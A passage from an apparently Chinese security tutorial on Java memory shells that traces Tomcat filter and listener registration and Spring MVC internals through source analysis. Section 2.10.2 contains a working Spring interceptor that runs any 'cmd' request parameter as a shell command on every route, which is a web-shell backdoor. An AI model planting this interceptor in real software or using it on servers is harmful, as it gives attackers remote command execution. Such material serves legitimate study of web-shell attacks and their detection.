```plain
package org.example;

import org.apache.catalina.Context;
import org.apache.catalina.LifecycleException;
import org.apache.catalina.startup.Tomcat;
import java.io.File;

public class Main {
    public static void main(String[] args) throws LifecycleException {
        Tomcat tomcat = new Tomcat();
        tomcat.getConnector(); //tomcat 9.0 以上需要加这行代码，参考：https://blog.csdn.net/qq_42944840/article/details/116349603
        Context context = tomcat.addWebapp("", new File(".").getAbsolutePath());
        Tomcat.addServlet(context, "helloServlet", new HelloServlet());
        context.addServletMappingDecoded("/hello", "helloServlet");
        tomcat.start();
        tomcat.getServer().await();
    }
}
```

`HelloServlet.java`：

```plain
package org.example;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet("/hello")
public class HelloServlet extends HttpServlet {
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("Hello, World!");
        out.println("</body></html>");
    }
}
```

### 2.3.1 servlet 初始化流程分析

我们在`org.apache.catalina.core.StandardWrapper#setServletClass`处下断点调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001839-0cf9c15e-c830-1.jpeg)

我们尝试按`Ctrl+左键`追踪它的上层调用位置，但是提示我们找不到，需要按两次`Ctrl+Alt+F7`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001909-1e87e540-c830-1.jpeg)

然后就可以看到，上层调用位置位于`org.apache.catalina.startup.ContextConfig#configureContext`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001920-2519a150-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001921-25d81f54-c830-1.jpeg)

接下来我们详细看下面这段代码：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001922-2686ac7c-c830-1.jpeg)

```plain
for (ServletDef servlet : webxml.getServlets().values()) {
            Wrapper wrapper = context.createWrapper();
            if (servlet.getLoadOnStartup() != null) {
                wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());
            }
            if (servlet.getEnabled() != null) {
                wrapper.setEnabled(servlet.getEnabled().booleanValue());
            }
            wrapper.setName(servlet.getServletName());
            Map<String,String> params = servlet.getParameterMap();
            for (Entry<String, String> entry : params.entrySet()) {
                wrapper.addInitParameter(entry.getKey(), entry.getValue());
            }
            wrapper.setRunAs(servlet.getRunAs());
            Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs();
            for (SecurityRoleRef roleRef : roleRefs) {
                wrapper.addSecurityReference(
                        roleRef.getName(), roleRef.getLink());
            }
            wrapper.setServletClass(servlet.getServletClass());
            MultipartDef multipartdef = servlet.getMultipartDef();
            if (multipartdef != null) {
                long maxFileSize = -1;
                long maxRequestSize = -1;
                int fileSizeThreshold = 0;

                if(null != multipartdef.getMaxFileSize()) {
                    maxFileSize = Long.parseLong(multipartdef.getMaxFileSize());
                }
                if(null != multipartdef.getMaxRequestSize()) {
                    maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
                }
                if(null != multipartdef.getFileSizeThreshold()) {
                    fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
                }

                wrapper.setMultipartConfigElement(new MultipartConfigElement(
                        multipartdef.getLocation(),
                        maxFileSize,
                        maxRequestSize,
                        fileSizeThreshold));
            }
            if (servlet.getAsyncSupported() != null) {
                wrapper.setAsyncSupported(
                        servlet.getAsyncSupported().booleanValue());
            }
            wrapper.setOverridable(servlet.isOverridable());
            context.addChild(wrapper);
        }
        for (Entry<String, String> entry :
                webxml.getServletMappings().entrySet()) {
            context.addServletMappingDecoded(entry.getKey(), entry.getValue());
        }
```

首先通过`webxml.getServlets()`获取的所有`Servlet`定义，并建立循环；然后创建一个`Wrapper`对象，并设置`Servlet`的加载顺序、是否启用（即获取`</load-on-startup>`标签的值）、`Servlet`的名称等基本属性；接着遍历`Servlet`的初始化参数并设置到`Wrapper`中，并处理安全角色引用、将角色和对应链接添加到`Wrapper`中；如果`Servlet`定义中包含文件上传配置，则根据配置信息设置`MultipartConfigElement`；设置`Servlet`是否支持异步操作；通过`context.addChild(wrapper);`将配置好的`Wrapper`添加到`Context`中，完成`Servlet`的初始化过程。

上面大的`for`循环中嵌套的最后一个`for`循环则负责处理`Servlet`的`url`映射，将`Servlet`的`url`与`Servlet`名称关联起来。

也就是说，`Servlet`的初始化主要经历以下六个步骤：

-   创建`Wapper`对象；
-   设置`Servlet`的`LoadOnStartUp`的值；
-   设置`Servlet`的名称；
-   设置`Servlet`的`class`；
-   将配置好的`Wrapper`添加到`Context`中；
-   将`url`和`servlet`类做映射

### 2.3.2 servlet 装载流程分析

我们在`org.apache.catalina.core.StandardWrapper#loadServlet`这里打下断点进行调试，重点关注`org.apache.catalina.core.StandardContext#startInternal`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001923-274b4816-c830-1.jpeg)

可以看到，装载顺序为`Listener`\-->`Filter`\-->`Servlet`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001924-27e69028-c830-1.jpeg)

可以看到，上面红框中的代码都调用了`org.apache.catalina.core.StandardContext#loadOnStartup`，`Ctrl+左键`跟进该方法，代码如下：

```plain
public boolean loadOnStartup(Container children[]) {
    TreeMap<Integer,ArrayList<Wrapper>> map = new TreeMap<>();
    for (Container child : children) {
        Wrapper wrapper = (Wrapper) child;
        int loadOnStartup = wrapper.getLoadOnStartup();
        if (loadOnStartup < 0) {
            continue;
        }
        Integer key = Integer.valueOf(loadOnStartup);
        map.computeIfAbsent(key, k -> new ArrayList<>()).add(wrapper);
    }
    for (ArrayList<Wrapper> list : map.values()) {
        for (Wrapper wrapper : list) {
            try {
                wrapper.load();
            } catch (ServletException e) {
                getLogger().error(
                        sm.getString("standardContext.loadOnStartup.loadException", getName(), wrapper.getName()),
                        StandardWrapper.getRootCause(e));
                if (getComputedFailCtxIfServletStartFails()) {
                    return false;
                }
            }
        }
    }
    return true;
}
```

可以看到，这段代码先是创建一个`TreeMap`，然后遍历传入的`Container`数组，将每个`Servlet`的`loadOnStartup`值作为键，将对应的`Wrapper`对象存储在相应的列表中；如果这个`loadOnStartup`值是负数，除非你请求访问它，否则就不会加载；如果是非负数，那么就按照这个`loadOnStartup`的升序的顺序来加载。

## 2.4 Filter 容器与 FilterDefs、FilterConfigs、FilterMaps、FilterChain

开头先明确一点，就是`Filter`容器是用于对请求和响应进行过滤和处理的，以下这张图是根据`Skay`师傅文章中的图片重制的：

> [https://mp.weixin.qq.com/s/eI-50-\_W89eN8tsKi-5j4g](https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001925-283172f0-c830-1.jpeg)

从上图可以看出，这个`filter`就是一个关卡，客户端的请求在经过`filter`之后才会到`Servlet`，那么如果我们动态创建一个`filter`并且将其放在最前面，我们的`filter`就会最先执行，当我们在`filter`中添加恶意代码，就可以实现命令执行，形成内存马。

这些名词其实很容易理解，首先，需要定义过滤器`FilterDef`，存放这些`FilterDef`的数组被称为`FilterDefs`，每个`FilterDef`定义了一个具体的过滤器，包括描述信息、名称、过滤器实例以及`class`等，这一点可以从`org/apache/tomcat/util/descriptor/web/FilterDef.java`的代码中看出来；然后是`FilterDefs`，它只是过滤器的抽象定义，而`FilterConfigs`则是这些过滤器的具体配置实例，我们可以为每个过滤器定义具体的配置参数，以满足系统的需求；紧接着是`FilterMaps`，它是用于将`FilterConfigs`映射到具体的请求路径或其他标识上，这样系统在处理请求时就能够根据请求的路径或标识找到对应的`FilterConfigs`，从而确定要执行的过滤器链；而`FilterChain`是由多个`FilterConfigs`组成的链式结构，它定义了过滤器的执行顺序，在处理请求时系统会按照`FilterChain`中的顺序依次执行每个过滤器，对请求进行过滤和处理。

## 2.5 编写一个简单的 Filter

我们继续用我们之前在`2.2`中搭建的环境，添加`TestFilter.java`：

```plain
package org.example;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter("/test")
public class TestFilter implements Filter {

    public void init(FilterConfig filterConfig) {
        System.out.println("[*] Filter初始化创建");
    }

    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[*] Filter执行过滤操作");
        filterChain.doFilter(servletRequest, servletResponse);
    }

    public void destroy() {
        System.out.println("[*] Filter已销毁");
    }
}
```

跑起来之后，控制台输出`[*] Filter初始化创建`，当我们访问`/test`路由的时候，控制台继续输出`[*] Filter执行过滤操作`，当我们结束`tomcat`的时候，会触发`destroy`方法，从而输出`[*] Filter已销毁`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001926-28e8bdc0-c830-1.jpeg)

## 2.6 从代码层面分析 Filter 运行的整体流程

我们在上面的`demo`中的`doFilter`函数这里下断点进行调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001928-29eda730-c830-1.jpeg)

跟进`org.apache.catalina.core.StandardWrapperValve#invoke`：

```plain
filterChain.doFilter(request.getRequest(), response.getResponse());
```

继续跟进变量`filterChain`，找到定义处的代码：

```plain
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001929-2ac1162e-c830-1.jpeg)

查看该方法（`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`）：

```plain
public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {
    if (servlet == null) {
        return null;
    } else {
        ApplicationFilterChain filterChain = null;
        if (request instanceof Request) {
            Request req = (Request)request;
            if (Globals.IS_SECURITY_ENABLED) {
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain)req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            filterChain = new ApplicationFilterChain();
        }

        filterChain.setServlet(servlet);
        filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());
        StandardContext context = (StandardContext)wrapper.getParent();
        FilterMap[] filterMaps = context.findFilterMaps();
        if (filterMaps != null && filterMaps.length != 0) {
            DispatcherType dispatcher = (DispatcherType)request.getAttribute("org.apache.catalina.core.DISPATCHER_TYPE");
            String requestPath = null;
            Object attribute = request.getAttribute("org.apache.catalina.core.DISPATCHER_REQUEST_PATH");
            if (attribute != null) {
                requestPath = attribute.toString();
            }

            String servletName = wrapper.getName();
            FilterMap[] var10 = filterMaps;
            int var11 = filterMaps.length;

            int var12;
            FilterMap filterMap;
            ApplicationFilterConfig filterConfig;
            for(var12 = 0; var12 < var11; ++var12) {
                filterMap = var10[var12];
                if (matchDispatcher(filterMap, dispatcher) && matchFiltersURL(filterMap, requestPath)) {
                    filterConfig = (ApplicationFilterConfig)context.findFilterConfig(filterMap.getFilterName());
                    if (filterConfig != null) {
                        filterChain.addFilter(filterConfig);
                    }
                }
            }

            var10 = filterMaps;
            var11 = filterMaps.length;

            for(var12 = 0; var12 < var11; ++var12) {
                filterMap = var10[var12];
                if (matchDispatcher(filterMap, dispatcher) && matchFiltersServlet(filterMap, servletName)) {
                    filterConfig = (ApplicationFilterConfig)context.findFilterConfig(filterMap.getFilterName());
                    if (filterConfig != null) {
                        filterChain.addFilter(filterConfig);
                    }
                }
            }

            return filterChain;
        } else {
            return filterChain;
        }
    }
}
```

我们在该方法和下面定义`filterMaps`那行下断点进行调试，可以看到，这段代码先是判断`servlet`是否为空，如果是就表示没有有效的`servlet`，无法创建过滤器链；然后根据传入的`ServletRequest`的类型来分类处理，如果是`Request`类型，并且启用了安全性，那么就创建一个新的`ApplicationFilterChain`，如果没启用，那么就尝试从请求中获取现有的过滤器链，如果不存在那么就创建一个新的；接着是设置过滤器链的`Servlet`和异步支持属性，这个没啥说的；关键点在于后面从`Wrapper`中获取父级上下文（`StandardContext`），然后获取该上下文中定义的过滤器映射数组（`FilterMap`）；最后遍历过滤器映射数组，根据请求的`DispatcherType`和请求路径匹配过滤器，并将匹配的过滤器添加到过滤器链中，最终返回创建或更新后的过滤器链。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001931-2bb4312e-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001933-2cd947f6-c830-1.jpeg)

从上面的两张图我们也可以清晰地看到`filterConfig`、`filterMap`、`FilterDef`的结构。

跟进刚才的`filterChain.doFilter`方法，位于`org.apache.catalina.core.ApplicationFilterChain#doFilter`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001934-2dab896e-c830-1.jpeg)

可以看到都是调用了`org.apache.catalina.core.ApplicationFilterChain#internalDoFilter`方法，在这个方法中会依次拿到`filterConfig`和`filter`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001936-2e9c2be4-c830-1.jpeg)

好了，大致过程到这里就结束了，但是我们的目的是打入内存马，也就是要动态地创建一个`Filter`，回顾之前的调试过程，我们发现在`createFilterChain`那个函数里面有两个关键点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001937-2f88b4fa-c830-1.jpeg)

也就是这里我用箭头指出来的`org.apache.catalina.core.StandardContext#findFilterMaps`和`org.apache.catalina.core.StandardContext#findFilterConfig`。

二者的实现代码粘贴如下：

```plain
public FilterMap[] findFilterMaps() {
    return filterMaps.asArray();
}

public FilterConfig findFilterConfig(String name) {
    synchronized (filterDefs) {
        return filterConfigs.get(name);
    }
}
```

也就是说我们只需要查找到现有的上下文，然后往里面插入我们自定义的恶意过滤器映射和过滤器配置，就可以实现动态添加过滤器了。

那也就是说，我们现在的问题就转化为如何添加`filterMap`和`filterConfig`。我们搜索关键词`addFilterMap`，即可看到在`StandardContext`中有两个相关的方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001939-305f9c9a-c830-1.jpeg)

注释里面也说的很清楚，`addFilterMap`是在一组映射末尾添加新的我们自定义的新映射；而`addFilterMapBefore`则会自动把我们创建的`filterMap`丢到第一位去，无需再手动排序，这正是我们需要的呀！

可以看到，上面的`addFilterMapBefore`函数中第一步是先执行`org.apache.catalina.core.StandardContext#validateFilterMap`这个函数，点击去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001940-314d4b2a-c830-1.jpeg)

发现我们需要保证它在根据`filterName`找`filterDef`的时候，得能找到，也就是说，我们还得自定义`filterDef`并把它加入到`filterDefs`，不过这个也很简单，也有对应的方法，也就是`org.apache.catalina.core.StandardContext#addFilterDef`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001941-321de050-c830-1.jpeg)

搞定，继续去看`filterConfig`如何添加。经过搜索发现，不存在类似上面的`addFilterConfig`这种方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001943-32d629da-c830-1.jpeg)

但是有`filterStart`和`filterStop`这两个方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001944-33adf37e-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001945-3472db26-c830-1.jpeg)

那也就是说，我们只能通过反射的方法去获取相关属性并添加进去。

## 2.7 Listener 简单介绍

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001946-34c81f0a-c830-1.jpeg)

由上图可知，`Listener`是最先被加载的，所以根据前面我们学到的思路，我动态注册一个恶意的`Listener`，就又可以形成一种内存马了。

在`tomcat`中，常见的`Listener`有以下几种：

-   `ServletContextListener`，用来监听整个`Web`应用程序的启动和关闭事件，需要实现`contextInitialized`和`contextDestroyed`这两个方法；
-   `ServletRequestListener`，用来监听`HTTP`请求的创建和销毁事件，需要实现`requestInitialized`和`requestDestroyed`这两个方法；
-   `HttpSessionListener`，用来监听`HTTP`会话的创建和销毁事件，需要实现`sessionCreated`和`sessionDestroyed`这两个方法；
-   `HttpSessionAttributeListener`，监听`HTTP`会话属性的添加、删除和替换事件，需要实现`attributeAdded`、`attributeRemoved`和`attributeReplaced`这三个方法。

很明显，`ServletRequestListener`是最适合做内存马的，因为它只要访问服务就能触发操作。

## 2.8 编写一个简单的 Listener（ServletRequestListener）

我们继续用我们之前在`2.2`中搭建的环境，替换掉之前的`TestFilter.java`，重新写一个`TestListener.java`：

```plain
package org.example;

import javax.servlet.*;
import javax.servlet.annotation.WebListener;

@WebListener("/test")
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("[+] destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("[+] initial TestListener");
    }
}
```

运行结果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001947-356d9eee-c830-1.jpeg)

## 2.9 从代码层面分析 Listener 运行的整体流程

我们在如图所示的两个地方下断点调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001948-3624d32a-c830-1.jpeg)

往下翻可以看到`org.apache.catalina.core.StandardContext#listenerStart`方法的调用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001950-3703283c-c830-1.jpeg)

代码写的通俗易懂，主要有两个事情要干，一是通过`findApplicationListeners`找到这些`Listerner`的名字；二是实例化这些`listener`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001951-38011172-c830-1.jpeg)

接着就是分类摆放，我们需要的`ServletRequestListener`被放在了`eventListeners`里面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001953-38f1bfc8-c830-1.jpeg)

分类摆放完了之后，干这样一件事情：

```plain
eventListeners.addAll(Arrays.asList(getApplicationEventListeners()));
```

`Arrays.asList(...)` 好理解，意思就是将数组转换为列表；`eventListeners.addAll(...)`也好理解，意思就是将括号里面的内容添加到之前实例化的监听器列表 `eventListeners` 中。关于括号里边的`org.apache.catalina.core.StandardContext#getApplicationEventListeners`这个方法，我们点进去看，代码如下：

```plain
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

也很简单明了，就是把`applicationEventListenersList`转换成一个包含任意类型对象的数组，也就是一个可能包含各种类型的应用程序事件监听器的数组。

那这总结起来就一句话，就是`Listener`有两个来源，一是根据`web.xml`文件或者`@WebListener`注解实例化得到的`Listener`；二是`applicationEventListenersList`中的`Listener`。前面的我们肯定没法控制，因为这是给开发者用的，不是给黑客用的哈哈哈。那就找找看，有没有类似之前我们用到的`addFilterConfig`这种函数呢？当然是有的，`ctrl+左键`往上找：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001955-39e512fe-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001956-3b0bf616-c830-1.jpeg)

方法名字叫做`addApplicationEventListener`，在`StandardContext.java`里面，代码如下，完美符合我们的需求，真是太哇塞了：

```plain
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

## 2.10 简单的 spring 项目搭建

新建个项目，设置`Server URL`为`https://start.aliyun.com/`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001957-3ba05ef0-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001959-3c61ac4a-c830-1.jpeg)

等待依赖解析完成：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002001-3d92e00c-c830-1.jpeg)

这里给我们准备了一个示例，我们可以直接跑起来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002005-4055ddbc-c830-1.jpeg)

### 2.10.1 编写一个简单的 Spring Controller

```plain
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class TestController {
    @ResponseBody
    @RequestMapping("/")
    public String test(){
        return "hello world";
    }
}
```

非常地简单：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002009-427044b6-c830-1.jpeg)

### 2.10.2 编写一个简单的 Spring Interceptor

`TestInterceptor.java`：

```plain
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```

`WebConfig.java`：

```plain
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class WebConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(new TestInterceptor()).addPathPatterns("/**");
    }
}
```

`Controller`就是之前写的`TestController.java`，运行后访问`http://127.0.0.1:8080/?cmd=whoami`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002010-434f1cc2-c830-1.jpeg)

### 2.10.3 编写一个简单的 Spring WebFlux 的 Demo（基于 Netty）

我们先聊聊怎么自己写一个`Spring WebFlux`框架的`demo`。

这里我们新建一个`SpringBoot`项目，取名`WebFluxMemoryShellDemo`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002011-43c5f248-c830-1.jpeg)

这里选择`Spring Reactive Web`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002012-44232f08-c830-1.jpeg)

接着新建两个文件，这里为了方便，我把这两个文件放到`hello`文件夹下。

`GreetingHandler.java`：

```plain
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.MediaType;
import org.springframework.stereotype.Component;
import org.springframework.web.reactive.function.BodyInserters;
import org.springframework.web.reactive.function.server.ServerRequest;
import org.springframework.web.reactive.function.server.ServerResponse;
import reactor.core.publisher.Mono;

@Component
public class GreetingHandler {
    public Mono<ServerResponse> hello(ServerRequest request) {
        return ServerResponse.ok().contentType(MediaType.TEXT_PLAIN).body(BodyInserters.fromValue("Hello, Spring!"));
    }
}
```

`GreetingRouter.java`：

```plain
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.MediaType;
import org.springframework.web.reactive.function.server.*;

@Configuration
public class GreetingRouter {
    @Bean
    public RouterFunction<ServerResponse> route(GreetingHandler greetingHandler) {
        return RouterFunctions.route(RequestPredicates.GET("/hello").and(RequestPredicates.accept(MediaType.TEXT_PLAIN)), greetingHandler::hello);
    }
}
```

我们可以新建`main/resources`文件夹，然后新建`application.properties`，通过`server.port`来控制`netty`服务的端口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002013-44a979be-c830-1.jpeg)

接着我们运行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002014-4562289c-c830-1.jpeg)

这里我从`github`上找了一个项目，也可以很好地帮助我们理解这个框架是如何使用的，它采用的是`Netty`+`SpringWebFlux`：

> [https://github.com/Java-Techie-jt/springboot-webflux-demo](https://github.com/Java-Techie-jt/springboot-webflux-demo)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002016-46b27580-c830-1.jpeg)

随便访问个路由。例如`http://127.0.0.1:9191/customers/stream`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002018-47a2a99c-c830-1.jpeg)

## 2.11 Spring MVC 介绍

如果想要深入理解`Spring MVC`框架型内存马，那么对`Spring MVC`的基础了解是非常必要的，本节就从源码层面和大家简单聊聊这个框架。

首先引用《`Spring in Action`》上的一张图（这里我重制了一下）来了解`Spring MVC`的核心组件和大致处理流程（不过我在第五版书上貌似没有找到这张图，有找到的小伙伴可以公众号后台私信我）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002019-487095b4-c830-1.jpeg)

可以看到，这里有一堆名词，我们一一来看：

-   `DispatcherServlet`是前端控制器，它负责接收`Request`并将`Request`转发给对应的处理组件；
-   `HandlerMapping`负责完成`url`到`Controller`映射，可以通过它来找到对应的处理`Request`的`Controller`；
-   `Controller`处理`Request`，并返回`ModelAndVIew`对象，`ModelAndView`是封装结果视图的组件；
-   ④~⑦表示视图解析器解析`ModelAndView`对象并返回对应的视图给客户端。

还有一个概念需要了解，就是`IOC`容器，因为这个名词会在本文后面的内容中提及。

`IOC`（控制反转）容器是`Spring`框架的核心概念之一，它的基本思想是将对象的创建、组装、管理等控制权从应用程序代码反转到容器，使得应用程序组件无需直接管理它们的依赖关系。`IOC`容器主要负责对象的创建、依赖注入、生命周期管理和配置管理等。`Spring`框架提供了多种实现`IOC`容器的方式，下面讲两种常见的：

-   `BeanFactory`：`Spring`的最基本的`IOC`容器，提供了基本的`IOC`功能，只有在第一次请求时才创建对象。
    
-   `ApplicationContext`：这是`BeanFactory`的扩展，提供了更多的企业级功能。`ApplicationContext`在容器启动时就预加载并初始化所有的单例对象，这样就可以提供更快的访问速度。
    

### 2.11.1 Spring MVC 九大组件

这九大组件需要有个印象：

`DispatcherServlet`（派发`Servlet`）：负责将请求分发给其他组件，是整个`Spring MVC`流程的核心；  
`HandlerMapping`（处理器映射）：用于确定请求的处理器（`Controller`）；  
`HandlerAdapter`（处理器适配器）：将请求映射到合适的处理器方法，负责执行处理器方法；  
`HandlerInterceptor`（处理器拦截器）：允许对处理器的执行过程进行拦截和干预；  
`Controller`（控制器）：处理用户请求并返回适当的模型和视图；  
`ModelAndView`（模型和视图）：封装了处理器方法的执行结果，包括模型数据和视图信息；  
`ViewResolver`（视图解析器）：用于将逻辑视图名称解析为具体的视图对象；  
`LocaleResolver`（区域解析器）：处理区域信息，用于国际化；  
`ThemeResolver`（主题解析器）：用于解析`Web`应用的主题，实现界面主题的切换。

### 2.11.2 简单的源码分析

#### 2.11.2.1 九大组件的初始化

首先是找到`org.springframework.web.servlet.DispatcherServlet`，可以看到里面有很多组件的定义和初始化函数以及一些其他的函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002022-4a223c64-c830-1.jpeg)

但是没有`init()`函数，我们翻看其父类`FrameworkServlet`的父类`org.springframework.web.servlet.HttpServletBean`的时候发现有`init`函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002024-4ba5420c-c830-1.jpeg)

代码如下：

```plain
@Override
public final void init() throws ServletException {

    // Set bean properties from init parameters.
    PropertyValues pvs = new ServletConfigPropertyValues(getServletConfig(), this.requiredProperties);
    if (!pvs.isEmpty()) {
        try {
            BeanWrapper bw = PropertyAccessorFactory.forBeanPropertyAccess(this);
            ResourceLoader resourceLoader = new ServletContextResourceLoader(getServletContext());
            bw.registerCustomEditor(Resource.class, new ResourceEditor(resourceLoader, getEnvironment()));
            initBeanWrapper(bw);
            bw.setPropertyValues(pvs, true);
        }
        catch (BeansException ex) {
            if (logger.isErrorEnabled()) {
                logger.error("Failed to set bean properties on servlet '" + getServletName() + "'", ex);
            }
            throw ex;
        }
    }

    // Let subclasses do whatever initialization they like.
    initServletBean();
}
```

先是从`Servlet`的配置中获取初始化参数并创建一个`PropertyValues`对象，然后设置`Bean`属性；关键在最后一步，调用了`initServletBean`这个方法。

我们点进去之后发现该函数并没有写任何内容，说明应该是子类继承的时候`override`了该方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002027-4d4b62a8-c830-1.jpeg)

果不其然，我们在`org.springframework.web.servlet.FrameworkServlet`中成功找到了该方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002030-4f3da3dc-c830-1.jpeg)

代码如下：

```plain
@Override
protected final void initServletBean() throws ServletException {
    getServletContext().log("Initializing Spring " + getClass().getSimpleName() + " '" + getServletName() + "'");
    if (logger.isInfoEnabled()) {
        logger.info("Initializing Servlet '" + getServletName() + "'");
    }
    long startTime = System.currentTimeMillis();

    try {
        this.webApplicationContext = initWebApplicationContext();
        initFrameworkServlet();
    }
    catch (ServletException | RuntimeException ex) {
        logger.error("Context initialization failed", ex);
        throw ex;
    }

    if (logger.isDebugEnabled()) {
        String value = this.enableLoggingRequestDetails ?
                "shown which may lead to unsafe logging of potentially sensitive data" :
                "masked to prevent unsafe logging of potentially sensitive data";
        logger.debug("enableLoggingRequestDetails='" + this.enableLoggingRequestDetails +
                "': request parameters and headers will be " + value);
    }

    if (logger.isInfoEnabled()) {
        logger.info("Completed initialization in " + (System.currentTimeMillis() - startTime) + " ms");
    }
}
```

这段代码的`log`和计时部分就不说了，我们捡关键的说。它先是调用`initWebApplicationContext`方法，初始化`IOC`容器，在初始化的过程中，会调用到这个`onRefresh`方法，一般来说这个方法是在容器刷新完成后被调用的回调方法，它执行一些在应用程序启动后立即需要完成的任务：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002035-51b92406-c830-1.jpeg)

跟入该方法，可以看到其中默认为空：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002038-53ce633c-c830-1.jpeg)

说明在它的子类中应该会有`override`，果然我们定位到了`org.springframework.web.servlet.DispatcherServlet#`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002040-54cd1c6a-c830-1.jpeg)

这一下就明了了起来，这不是我们之前提到的九大组件嘛，到这一步就完成了`Spring MVC`的九大组件的初始化。

